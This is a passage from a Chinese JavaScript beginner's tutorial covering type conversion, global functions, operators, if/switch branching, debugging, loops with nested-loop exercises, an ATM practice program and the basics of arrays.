通过 `Number` 显式转换成数值类型，当转换失败时结果为 `NaN`（Not a Number）即不是一个数字。

```javascript
let t = '12'
let f = 8

// 显式将字符串 12 转换成数值 12
t = Number(t)
// 检测转换后的类型
console.log(t + f) // 结果为 20

// 并不是所有的值都可以被转成数值类型
let str = 'hello'
// 将 hello 转成数值是不现实的，当无法转换成数值时，得到的结果为 NaN
console.log(Number(str))
```

**String**

`String(数据)` 返回字符串类型；`变量.toString(进制)` 也可以转换，且可以有进制转换。

**Boolean**

`Boolean(数据)` 返回 `true` 或者 `false`：如果值为 `false`、`0`、`''`、`null`、`undefined`、`NaN`，则返回 `false`，其余返回为 `true`。

**parseInt 和 parseFloat**

`Number` 要求整个字符串都能转成数值，只要有一个字符不是数字，结果就是 `NaN`；`parseInt` 和 `parseFloat` 则宽松一些，从字符串左侧开始解析，只保留能识别出的数字部分。

```javascript
console.log(parseInt('12px')) // 12  只保留整数部分，后面的单位被舍弃
console.log(parseInt('12.94px')) // 12  小数部分也会被舍弃
console.log(parseFloat('12.94px')) // 12.94  保留小数部分

// Number 转换更严格，有非数字字符就失败
console.log(Number('12px')) // NaN
```

> 提示
>
> 把总秒数换算成天、时、分、秒时经常用到，比如 `parseInt(总秒数 / 60 / 60 % 24)` 就是小时数。

### 2.5 常用全局函数

全局函数不依赖任何对象，可以直接调用，分为 ECMAScript 标准函数和浏览器环境提供的函数两类。

#### 2.5.1 类型转换与数值处理

| 函数 | 作用 | 示例 |
| --- | --- | --- |
| `Boolean(value)` | 将值转为布尔类型 | `Boolean(0) → false` |
| `Number(value)` | 将值转为数字类型 | `Number('123') → 123` |
| `String(value)` | 将值转为字符串类型 | `String(true) → 'true'` |
| `BigInt(value)` | 将值转为大整数（ES2020） | `BigInt('100') → 100n` |
| `Symbol(desc)` | 创建唯一的 Symbol（ES2015） | `Symbol('id') → Symbol(id)` |
| `parseInt(string)` | 字符串转整数，可指定进制 | `parseInt('10px') → 10` |
| `parseFloat(string)` | 字符串转浮点数 | `parseFloat('3.14cm') → 3.14` |
| `isNaN(value)` | 检查是否为 `NaN` | `isNaN('abc') → true` |
| `isFinite(value)` | 检查是否为有限数字 | `isFinite(Infinity) → false` |

> 注意
>
> `isNaN` 会先把参数转成数字，所以 `isNaN('abc')` 也是 `true`；只想判断“值本身是不是 `NaN`”时用 `Number.isNaN()`（见 19.9.1）。

#### 2.5.2 URI 编码与解码

URL 中含有中文、空格等特殊字符时，浏览器发送请求后服务器可能收到乱码。传参前先对 URL 编码，服务器接收后再解码，就能避免这个问题。JavaScript 的所有 URI 编码 / 解码函数都固定使用 **UTF-8** 字符集。

| 函数 | 作用 | 示例 |
| --- | --- | --- |
| `encodeURI(uri)` | 编码 URI 的**路径部分**（不含参数），保留 URL 结构字符 | `encodeURI('https://测试.com')` |
| `decodeURI(encodedURI)` | 解码 URI 的路径部分 | `decodeURI('https://%E6%B5%8B%E8%AF%95.com')` |
| `encodeURIComponent(str)` | 编码 URI 的**参数值**（使用频率最高） | `encodeURIComponent('?x=abc&y=def') → '%3Fx%3Dabc%26y%3Ddef'` |
| `decodeURIComponent(encodedStr)` | 解码 URI 的参数值 | `decodeURIComponent('%3Fx%3Dabc') → '?x=abc'` |

* `encodeURI` 会保留 URL 结构字符：`:/?#[]@!$&'()*+,;=`
* `encodeURIComponent` 不保留这些字符，会把它们全部编码，所以适合**只对参数值**编码

```javascript
// 参数值里本身有 & 和 =，不编码的话服务器会把它当成结构字符解析
const keyword = '?x=abc&y=def'
const url = 'https://example.com/search?q=' + encodeURIComponent(keyword)
console.log(url) // https://example.com/search?q=%3Fx%3Dabc%26y%3Ddef
```

#### 2.5.3 其他全局函数

| 函数 | 作用 | 示例 |
| --- | --- | --- |
| `eval(string)` | 执行字符串形式的代码（**危险**，禁止执行用户输入） | `eval('1 + 1') → 2` |
| `setTimeout(callback, delay)` | 延迟执行一次 | `setTimeout(() => alert('Hi'), 1000)` |
| `setInterval(callback, delay)` | 每隔一段时间执行一次 | `setInterval(() => console.log('Tick'), 1000)` |
| `clearTimeout(id)` / `clearInterval(id)` | 取消对应的定时器 | `clearTimeout(timer)` |
| `alert(message)` | 显示警告弹窗 | `alert('Hello!')` |
| `prompt(message)` | 显示输入弹窗，返回用户输入的内容 | `prompt('你的名字？')` |
| `confirm(message)` | 显示确认弹窗，返回 `true` / `false` | `confirm('确定删除？')` |

> 安全提示
>
> `eval` 会把字符串当代码执行，用户能控制字符串时可能导致 XSS 或任意代码执行，实际开发中不要使用。

### 2.6 字面量

**字面量（literal）**是直接在代码中写出来的固定值，不需要经过计算或函数调用。JavaScript 中常见的字面量有：

| 类型 | 写法 | 示例 |
| --- | --- | --- |
| 数字字面量 | 整数、小数、科学计数法、不同进制 | `10`、`3.14`、`1e3`、`0xFF` |
| 字符串字面量 | 单引号、双引号、反引号 | `'abc'`、`"abc"`、`` `abc` `` |
| 布尔字面量 | 只有两个值 | `true`、`false` |
| 数组字面量 | 中括号包裹 | `[1, 2, 3]` |
| 对象字面量 | 大括号包裹的键值对 | `{ name: 'jack', age: 18 }` |
| 函数字面量 | 函数表达式 / 箭头函数 | `function () {}`、`() => {}` |
| 正则表达式字面量 | 斜杠包裹 | `/abc/gi` |
| `null` / `undefined` | 空值、未定义 | `null`、`undefined` |
| BigInt 字面量 | 整数后加 `n`（ES2020） | `10n` |

**类数组（伪数组）字面量**：像数组一样有 `length` 和数字下标，但没有数组的方法：

```javascript
const arrayLike = {
  0: 'abc',
  1: 'cba',
  length: 2
}

console.log(arrayLike[0]) // 'abc'
console.log(arrayLike.length) // 2
// arrayLike.push('nba') // 报错，伪数组没有数组方法
```

> 提示
>
> `arguments`、`NodeList`、`HTMLCollection` 都是常见的类数组；需要数组方法时用 `Array.from(arrayLike)` 或 `[...arrayLike]` 转成真数组（前提是可迭代）。

> 注意
>
> `Symbol('id')` 严格来说是一次函数调用，不是字面量，因为它每次执行都会产生新值；把它当作“创建 Symbol 的写法”记住即可（详见 19.20）。

<a id="ch03"></a>
## 3. 运算符与分支语句

> 目标：掌握常见运算符的使用，了解优先级关系，能够使用分支语句实现条件判断。

### 3.1 运算符

#### 3.1.1 算术运算符

算术运算符也叫数学运算符，主要包括加、减、乘、除、取余（求模）等。

| 运算符 | 作用 |
| --- | --- |
| + | 求和 |
| - | 求差 |
| * | 求积 |
| / | 求商 |
| % | 取模（取余数），开发中经常用于作为某个数字是否被整除 |

```javascript
console.log(1 + 2 * 3 / 2) // 4
let num = 10
console.log(num + 10) // 20
console.log(num + num) // 20

// 1. 取模（取余数）使用场景：用来判断某个数是否能够被整除
console.log(4 % 2) // 0
console.log(5 % 3) // 2
console.log(3 % 5) // 3

// 2. 注意事项：如果我们计算失败，则返回的结果是 NaN (not a number)
console.log('pink老师' - 2)
console.log('pink老师' + 2) // pink老师2
```

> 注意
>
> * 在计算失败时，显示的结果是 `NaN`（not a number），但 `typeof NaN` 仍然是 `'number'`
> * `NaN` 是「粘性」的：任何包含 `NaN` 的运算结果都是 `NaN`，如 `NaN + 2` 还是 `NaN`
> * `NaN` 不等于任何值，包括它自己，`NaN === NaN` 为 `false`；要判断应该用 `Number.isNaN()`（见 19.9.1）

#### 3.1.2 赋值运算符

赋值运算符用于对变量进行赋值，`=` 将等号右边的值赋予左边，要求左边必须是一个容器。

| 运算符 | 作用 |
| --- | --- |
| += | 加法赋值 |
| -= | 减法赋值 |
| *= | 乘法赋值 |
| /= | 除法赋值 |
| %= | 取余赋值 |

```javascript
let num = 1
// num = num + 1
// 采取赋值运算符
num += 3
console.log(num)
```

#### 3.1.3 自增 / 自减运算符

| 符号 | 作用 | 说明 |
| --- | --- | --- |
| ++ | 自增 | 变量自身的值加 1，例如 x++ |
| -- | 自减 | 变量自身的值减 1，例如 x-- |

* `++` 在前和 `++` 在后在单独使用时二者并没有差别，而且一般开发中我们都是独立使用
* `++` 在后（后缀式）我们会使用更多

```javascript
// 1. 前置自增
let i = 1
console.log(++i + 1)

// 2. 后置自增
let j = 1
console.log(j++ + 1)

// 了解
let k = 1
console.log(k++ + ++k + k)
```

> 注意
>
> * 只有变量能够使用自增和自减运算符
> * `++`、`--` 可以在变量前面也可以在变量后面，比如 `x++` 或者 `++x`

#### 3.1.4 比较运算符

使用场景：比较两个数据大小、是否相等，根据比较结果返回一个布尔值（true / false）。

| 运算符 | 作用 |
| --- | --- |
| > | 左边是否大于右边 |
| < | 左边是否小于右边 |
| >= | 左边是否大于或等于右边 |
| <= | 左边是否小于或等于右边 |
| === | 左右两边是否**类型**和**值**都相等（重点） |
| == | 左右两边**值**是否相等 |
| != | 左右值不相等 |
| !== | 左右两边是否不全等 |

```javascript
console.log(3 > 5)
console.log(3 >= 3)
console.log(2 == 2)
// 比较运算符有隐式转换，把 '2' 转换为 2，双等号只判断值
console.log(2 == '2') // true
// === 全等，判断值和数据类型都一样才行
console.log(2 === '2') // false
console.log(NaN === NaN) // NaN 不等于任何人，包括他自己
console.log(2 !== '2') // true
console.log('a' < 'b') // true
console.log('aa' < 'aac') // true
```

> 经验
>
> 以后判断是否相等请用 `===`。

#### 3.1.5 逻辑运算符

使用场景：可以把多个布尔值放到一起运算，最终返回一个布尔值。

| 符号 | 名称 | 日常读法 | 特点 | 口诀 |
| --- | --- | --- | --- | --- |
| && | 逻辑与 | 并且 | 符号两边有一个假的结果为假 | 一假则假 |
| \|\| | 逻辑或 | 或者 | 符号两边有一个真的结果为真 | 一真则真 |
| ! | 逻辑非 | 取反 | true 变 false，false 变 true | 真变假，假变真 |

| A | B | A && B | A \|\| B | !A |
| --- | --- | --- | --- | --- |
| false | false | false | false | true |
| false | true | false | true | true |
| true | false | false | true | false |
| true | true | true | true | false |

```javascript
// 逻辑与 一假则假
console.log(true && true)
console.log(3 < 5 && 3 > 2)
console.log(3 < 5 && 3 < 2)

// 逻辑或 一真则真
console.log(false || true)
console.log(false || false)

// 逻辑非 取反
console.log(!true)
console.log(!false)

let num = 6
console.log(num > 5 && num < 10)
```

逻辑运算符还有一个特性：**逻辑中断**（也叫短路运算），即运算过程中如果已经能确定结果，后面的表达式就不会再执行。

```javascript
// 逻辑与：左边为假，直接返回左边，右边的表达式不再执行
console.log(false && 22) // false
let age = 18
console.log(false && age++) // false
console.log(age) // 18，右边是 age++ 也不会执行

// 逻辑或：左边为真，直接返回左边，右边的表达式不再执行
console.log(true || age++) // true
console.log(age) // 18

// 两边都为真时：&& 返回最后一个值，|| 返回第一个值
console.log(11 && 22) // 22
console.log(11 || 22) // 11
```

利用逻辑中断的特性，可以给函数的参数设置默认值：

```javascript
function fn(x, y) {
  // 实参为 undefined 时，取后面的 0
  x = x || 0
  y = y || 0
  console.log(x + y)
}

fn(1, 2) // 3
```

> 提示
>
> 逻辑中断返回的不一定是布尔值，而是参与运算的其中一个表达式的值。

#### 3.1.6 运算符优先级

> 逻辑运算符优先级：`!` > `&&` > `||`

#### 3.1.7 位运算符

位运算符直接操作数字的二进制位，日常业务代码用得不多，但读源码、写底层逻辑时会遇到：

| 运算符 | 名称 | 说明 | 示例 |
| --- | --- | --- | --- |
| `&` | 按位与 | 两位都为 1 才是 1 | `5 & 3` → `1` |
| `\|` | 按位或 | 有一位为 1 就是 1 | `5 \| 3` → `7` |
| `^` | 按位异或 | 两位不同才是 1 | `5 ^ 3` → `6` |
| `~` | 按位取反 | 0 变 1、1 变 0 | `~5` → `-6` |
| `<<` | 左移 | 左移 n 位，相当于乘 2ⁿ | `1 << 3` → `8` |
| `>>` | 有符号右移 | 右移 n 位，相当于除以 2ⁿ | `-8 >> 1` → `-4` |
| `>>>` | 无符号右移 | 右移时高位补 0 | `-8 >>> 1` → `2147483644` |

```javascript
console.log(5 & 3) // 101 & 011 = 001 → 1
console.log(5 | 3) // 101 | 011 = 111 → 7
console.log(5 ^ 3) // 101 ^ 011 = 110 → 6
console.log(1 << 3) // 1000 → 8
```

对应的赋值运算符：`<<=`、`>>=`、`>>>=`、`&=`、`|=`、`^=`。

#### 3.1.8 其他运算符

**逗号运算符**

逗号运算符允许在一个语句中执行多个表达式，并返回**最后一个表达式的值**：

```javascript
let a = (1, 2, 3)
console.log(a) // 3

// 注意：变量声明列表中的逗号不是逗号运算符
let x = 1, y = 2, z = 3
let b = (x++, y++, z++)
console.log(b) // 3（z++ 的返回值）

// 在 return 中依次执行多个表达式
function test() {
  return (console.log('A'), console.log('B'), 'Result')
}
console.log(test()) // 依次输出 A、B、Result
```

**`delete`：删除对象属性**

```javascript
const person = { name: '张三', age: 30 }
delete person.age
console.log(person) // { name: '张三' }
console.log('age' in person) // false
```

* 删除成功返回 `true`，失败返回 `false`
* 不能删除变量、函数或不可配置的属性
* 删除数组元素时，该位置变为 `empty`，**数组长度不变**

**`void`：求值但返回 `undefined`**

```javascript
console.log(void 0) // undefined
```

**`in`：检查对象是否有指定属性**

```javascript
const obj = { a: 1 }
console.log('a' in obj) // true
console.log('b' in obj) // false
```

> 注意
>
> `in` 会沿原型链查找；只想判断**自有属性**时用 `Object.hasOwn(obj, 'a')`（见 19.3.3），判断数组下标是否存在也可以用 `in`。

**`instanceof`：检查对象是否是某构造函数的实例**

```javascript
console.log([] instanceof Array) // true
console.log({} instanceof Object) // true
```

**展开运算符 `...`（ES2015）**

把数组或对象“展开”成一个个元素，常用于合并、复制和函数传参：

```javascript
// 数组合并
const arr1 = [1, 2, 3]
const arr2 = [4, 5, 6]
console.log([...arr1, ...arr2]) // [1, 2, 3, 4, 5, 6]

// 对象合并（同名属性后面的覆盖前面的）
const obj1 = { a: 1, b: 2 }
const obj2 = { b: 3, c: 4 }
console.log({ ...obj1, ...obj2 }) // { a: 1, b: 3, c: 4 }

// 函数调用时展开：把数组元素依次当作实参
function add(x, y) {
  return x + y
}
console.log(add(...[1, 2])) // 3

// 字符串也可以展开成单个字符
console.log([...'hey']) // ['h', 'e', 'y']
```

> 注意
>
> 展开对象 `{ ...obj }` 是**浅拷贝**，只复制第一层属性；属性值是对象 / 数组时，复制的是引用，两边仍然会互相影响（见 18.1）。对象支持展开是 ES2018 才加入的。

**其他运算符**

* `**`：指数运算（ES2016），`2 ** 3` 等价于 `Math.pow(2, 3)`
* `?.`：可选链（ES2020），详见 19.1
* `new`：创建实例
* `yield`：暂停 / 恢复生成器函数（见 19.6.4）
* `async / await`：等待 Promise（见 19.12）

### 3.2 语句

#### 3.2.1 表达式和语句

表达式是一组代码的集合，JavaScript 解释器会将其计算出一个结果；语句是 JavaScript 为了完成某种任务而进行的操作，例如分支语句、循环语句。



### 3.3 分支语句

分支语句可以根据条件判定真假，来选择性的执行想要的代码。分支语句包含：

* if 分支语句（重点）
* 三元运算符
* switch 语句

#### 3.3.1 if 分支语句

语法：

```javascript
if (条件表达式) {
  // 满足条件要执行的语句
}
```

小括号内的条件结果是布尔值，为 `true` 时，进入大括号里执行代码；为 `false`，则不执行大括号里面代码。小括号内的结果若不是布尔类型时，会发生类型转换为布尔值，类似 `Boolean()`。

```javascript
// 1. 除了 0，所有的数字都为真；除了 ''，所有的字符串都为真
if (0) {
  console.log('执行语句')
}

// 2. 用户输入
let score = +prompt('请输入成绩')
// 3. 进行判断输出
if (score >= 700) {
  alert('恭喜考入黑马程序员')
}
```

#### 3.3.2 if 双分支语句

如果有两个条件的时候，可以使用 `if else` 双分支语句。

```javascript
if (条件表达式) {
  // 满足条件要执行的语句
} else {
  // 不满足条件要执行的语句
}
```

例如：

```javascript
// 1. 用户输入
let uname = prompt('请输入用户名:')
let pwd = prompt('请输入密码:')
// 2. 判断输出
if (uname === 'pink' && pwd === '123456') {
  alert('恭喜登录成功')
} else {
  alert('用户名或者密码错误')
}
```

#### 3.3.3 if 多分支语句

使用场景：适合于有多个条件的时候。

```javascript
// 1. 用户输入
let score = +prompt('请输入成绩：')
// 2. 判断输出
if (score >= 90) {
  alert('成绩优秀')
} else if (score >= 70) {
  alert('成绩良好')
} else if (score >= 60) {
  alert('成绩及格')
} else {
  alert('成绩不及格')
}
```

#### 3.3.4 三元运算符

* 使用场景：一些简单的双分支，可以使用三元运算符（三元表达式），写起来比 if else 双分支更简单
* 符号：`?` 与 `:` 配合使用

```javascript
条件 ? 表达式1 : 表达式2
```

例如：

```javascript
// 执行过程：如果条件为真，则执行表达式 1；如果条件为假，则执行表达式 2
console.log(5 < 3 ? '真的' : '假的')

// 1. 用户输入
let num = prompt('请您输入一个数字:')
// 2. 判断输出 - 小于 10 才补 0
num = num >= 10 ? num : 0 + num
alert(num)
```

#### 3.3.5 switch 语句

> 使用场景：适合于有多个条件的时候，也属于分支语句，大部分情况下和 if 多分支语句功能相同。

注意：

* switch case 语句一般用于等值判断，if 适合于区间判断
* switch case 一般需要配合 `break` 关键字使用，没有 `break` 会造成 case 穿透
* if 多分支语句开发要比 switch 更重要，使用也更多

```javascript
// switch 分支语句的语法
// switch (表达式) {
//   case 值1:
//     代码1
//     break
//   case 值2:
//     代码2
//     break
//   default:
//     代码n
// }

switch (2) {
  case 1:
    console.log('您选择的是1')
    break // 退出 switch
  case 2:
    console.log('您选择的是2')
    break // 退出 switch
  default:
    console.log('没有符合条件的')
}
```

#### 3.3.6 if 多分支与 switch 的区别

* 共同点
  * 都能实现多分支选择，多选 1
  * 大部分情况下可以互换
* 区别
  * switch…case 语句通常处理 case 为比较**确定值**的情况，而 if…else 语句更加灵活，通常用于**范围判断**（大于，等于某个范围）
  * switch 语句进行判断后直接执行到程序的语句，效率更高，而 if…else 语句有几种判断条件，就得判断多少次
  * switch 一定要注意必须是 `===` 全等，一定注意数据类型，同时注意 `break` 否则会有穿透效果
* 结论
  * 当分支比较少时，if…else 语句执行效率高
  * 当分支比较多时，switch 语句执行效率高，而且结构更清晰

#### 3.3.7 断点调试

* 作用：学习时可以帮助更好的理解代码运行，工作时可以更快找到 bug

浏览器打开调试界面：

* 按 F12 打开开发者工具
* 点到源代码一栏（sources）
* 选择代码文件

**断点**：在某句代码上加的标记就叫断点，当程序执行到这句有标记的代码时会暂停下来。





**在控制台执行临时代码**：开发者工具的 Console（控制台）面板可以随时输入 JavaScript 表达式并立即看到结果，适合快速验证一段逻辑，不会影响页面里的源码。

**`debugger` 关键字**：在代码中写 `debugger`，程序运行到这里时会自动暂停（效果等同于手动打断点），前提是开发者工具处于打开状态：

```javascript
let age = 18
debugger // 执行到这里暂停，可以查看此时的变量值
console.log(age)
```

> 注意
>
> `debugger` 只适合本地调试，提交代码前要删掉，否则用户打开控制台时程序会停在断点处。

<a id="ch04"></a>
## 4. 循环语句

> 目标：掌握循环语句，让程序具备重复执行能力。

### 4.1 while 循环

while：在……期间，所以 while 循环就是在满足条件期间，重复执行某些代码。

```javascript
while (条件表达式) {
  // 循环体
}
```

例如：

```javascript
// 需求：利用循环重复打印 3 次 '月薪过万不是梦，毕业时候见英雄'
let i = 1
while (i <= 3) {
  document.write('月薪过万不是梦，毕业时候见英雄~<br>')
  i++ // 这里千万不要忘了变量自增，否则造成死循环
}
```

循环三要素：

* 初始值（经常用变量）
* 终止条件
* 变量的变化量

#### 4.1.1 中止循环

* `break`：中止整个循环，一般用于结果已经得到，后续的循环不需要的时候可以使用（提高效率）
* `continue`：中止本次循环，一般用于排除或者跳过某一个选项的时候

```javascript
// 1. break 退出循环
let i = 1
while (i <= 5) {
  if (i === 3) {
    break
  }
  console.log(i)
  i++
}

// 2. continue 跳过某次循环
let j = 1
while (j <= 5) {
  if (j === 3) {
    j++
    continue
  }
  console.log(j)
  j++
}
```

#### 4.1.2 无限循环

* `while(true)` 来构造“无限”循环，需要使用 `break` 退出循环（常用）
* `for(;;)` 也可以来构造“无限”循环，同样需要使用 `break` 退出循环

```javascript
// 需求：页面会一直弹窗询问你爱我吗
// (1) 如果用户输入的是 '爱'，则退出弹窗
// (2) 否则一直弹窗询问
while (true) {
  let love = prompt('你爱我吗?')
  if (love === '爱') {
    break
  }
}
```

### 4.2 for 循环

`for` 是 JavaScript 提供的另一种循环控制语句，它和 `while` 只是语法上存在差异。

```javascript
// 语法格式
// for (起始值; 终止条件; 变化量) {
//   要重复执行的代码
// }

// 示例：在网页中输入标题标签
for (let i = 1; i <= 6; i++) {
  document.write(`<h${i}>循环控制，即重复执行<h${i}>`)
}
```

变化量和死循环：`for` 循环和 `while` 一样，如果不合理设置增量和终止条件，便会产生死循环。

```javascript
// 1. continue：结束本次循环，继续下一次循环
for (let i = 1; i <= 5; i++) {
  if (i === 3) {
    continue
  }
  console.log(i)
}

// 2. break：退出结束整个循环
for (let i = 1; i <= 5; i++) {
  if (i === 3) {
    break
  }
  console.log(i)
}
```

结论：

* JavaScript 提供了多种语句来实现循环控制，但无论使用哪种语句都离不开循环的 3 个特征，即起始值、变化量、终止条件
* 起始值、变化量、终止条件由开发者根据逻辑需要进行设计，规避死循环的发生
* 当明确了循环的次数的时候推荐使用 `for` 循环，当不明确循环的次数的时候推荐使用 `while` 循环

> 注意
>
> `for` 的语法结构更简洁，故 `for` 循环的使用频次会更多。

### 4.3 循环嵌套

地球在自转的同时也在围绕太阳公转，如果把自转和公转都看成是循环的话，就相当于是循环中又嵌套了另一个循环。


```javascript
for (外部声明记录循环次数的变量; 循环条件; 变化值) {
  for (内部声明记录循环次数的变量; 循环条件; 变化值) {
    循环体
  }
}
```



实际上 JavaScript 中任何一种循环语句都支持循环的嵌套，如下代码所示：

```javascript
// 1. 外面的循环 记录第 n 天
for (let i = 1; i < 4; i++) {
  document.write(`第${i}天 <br>`)
  // 2. 里层的循环记录 几个单词
  for (let j = 1; j < 6; j++) {
    document.write(`记住第${j}个单词<br>`)
  }
}
```



> 经验
>
> 记住，外层循环循环一次，里层循环循环全部。

#### 4.3.1 倒三角

```javascript
// 外层打印几行
for (let i = 1; i <= 5; i++) {
  // 里层打印几个星星
  for (let j = 1; j <= i; j++) {
    document.write('★')
  }
  document.write('<br>')
}
```


#### 4.3.2 九九乘法表

样式 css：

```css
span {
  display: inline-block;
  width: 100px;
  padding: 5px 10px;
  border: 1px solid pink;
  margin: 2px;
  border-radius: 5px;
  box-shadow: 2px 2px 2px rgba(255, 192, 203, .4);
  background-color: rgba(255, 192, 203, .1);
  text-align: center;
  color: hotpink;
}
```

JavaScript：

```javascript
// 外层打印几行
for (let i = 1; i <= 9; i++) {
  // 里层打印几个
  for (let j = 1; j <= i; j++) {
    // 只需要把 ★ 换成 1 x 1 = 1
    document.write(`
      <div> ${j} x ${i} = ${j * i} </div>
    `)
  }
  document.write('<br>')
}
```



### 4.4 综合案例：ATM 存取款机



分析：

* ① 提示输入框写到循环里面（无限循环）
* ② 用户输入 4 则退出循环 `break`
* ③ 提前准备一个金额预先存储一个数额 `money`
* ④ 根据输入不同的值，做不同的操作
  * （1）取钱则是减法操作，存钱则是加法操作，查看余额则是直接显示金额
  * （2）可以使用 `if else if` 多分支来执行不同的操作

完整代码：

```javascript
// 1. 开始循环，输入框写到循环里面
// 3. 准备一个总的金额
let money = 100
while (true) {
  let re = +prompt(`
请您选择操作：
1.存钱
2.取钱
3.查看余额
4.退出
`)
  // 2. 如果用户输入的 4 则退出循环，break 写到 if 里面
  if (re === 4) {
    break
  }
  // 4. 根据输入做操作
  switch (re) {
    case 1:
      // 存钱
      let cun = +prompt('请输入存款金额')
      money = money + cun
      break
    case 2:
      // 取钱
      let qu = +prompt('请输入取款金额')
      money = money - qu
      break
    case 3:
      alert(`您的银行卡余额是${money}`)
      break
  }
}
```

<a id="ch05"></a>
## 5. 数组

> 目标：知道什么是数组及其应用的场景，掌握数组声明及访问的语法。

### 5.1 数组是什么

* **数组**（Array）是一种可以按顺序保存数据的数据类型
* 使用场景：如果有多个数据可以用数组保存起来，然后放到一个变量中，管理非常方便

### 5.2 数组的基本使用

#### 5.2.1 定义数组和数组单元

```javascript
// 1. 语法，使用 [] 来定义一个空数组
// 定义一个空数组，然后赋值给变量 classes
// let classes = [];

// 2. 定义非空数组
let classes = ['小明', '小刚', '小红', '小丽', '小米']
```

通过 `[]` 定义数组，数据中可以存放真正的数据，如小明、小刚、小红等这些都是数组中的数据，我们把这些数据称为数组单元，数组单元之间使用英文逗号分隔。

#### 5.2.2 访问数组和数组索引

JavaScript 为数组中的每一个数据单元都编了号，通过数据单元在数组中的编号便可以轻松访问到数组中的数据单元。我们将数据单元在数组中的编号称为索引值，也有人称其为下标。索引值是按照数据单元在数组中的位置依次排列的，注意是从 `0` 开始的。

